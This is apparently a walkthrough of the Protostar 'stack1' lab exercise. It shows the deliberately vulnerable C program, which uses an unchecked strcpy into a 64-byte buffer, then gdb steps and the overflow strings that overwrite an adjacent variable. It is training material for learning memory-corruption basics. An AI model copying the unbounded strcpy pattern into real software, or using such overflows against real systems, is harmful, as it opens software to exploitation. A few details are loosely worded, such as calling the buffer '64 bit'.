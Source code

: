 ## Protostar exercises - [stack1](https://exploit-exercises.lains.space/protostar/stack1/)

#### About
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints

If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
Protostar is little endian

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

#### Procedure:

Similar to the previous one, the value of 'modified' variable needs to be changed. But here, it need to be changed to a specific value.

There is no `gets` call in this program. Instead, `strcpy` is used to copy the argument into buffer. 

###### Vulnerability:

`strcpy` is used to copy a string. if the destination string of a `strcpy()` is not large enough, then buffer overflow happens. We can use this to overflow the 64 bit buffer and write into the memory address where 'modified' is stored.

###### Disassembly:

**disassembly.png**

We can see that 'modified' variable is at $esp+0x5c. Lets put breakpoints before and after `strcpy` and create hooks

```
break *0x080484a2
break *0x080484a7
define hook-stop
>info registers
>x/24wx $esp
>x/2i $eip
>end
```

Lets run with argument AAAAAAAA
```
r AAAAAAAA
```

We can see that addresses 0xbffff75c and 0xbffff760 are overwritten with A's. Also, 'modified' is stored at 0xbffff79c and has value of 0x00000000
**registers.png**

We need to overwrite from 0xbffff75c to 0xbffff79c. That is 40 + 4 words (68 bytes)
Lets create a string of 68 bytes and make sure variable is overwritten
` r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIII`

**overwrite.png**
We can see that 0xbffff79c now has a value of 0x49494949 or IIII

Now we need to change I's in string to 0x61626364 (abcd)
Lets run with this argument 
`r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHabcd`

**try,png**
Now we can see that 'modified' is changed to 0x64636261. This is because prostar is little endian (as mentioned in hints). Lets reverse abcd to dcba and try

`r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHdcba`

**done.png**

Now, the variable has 0x61626364 and the program has passed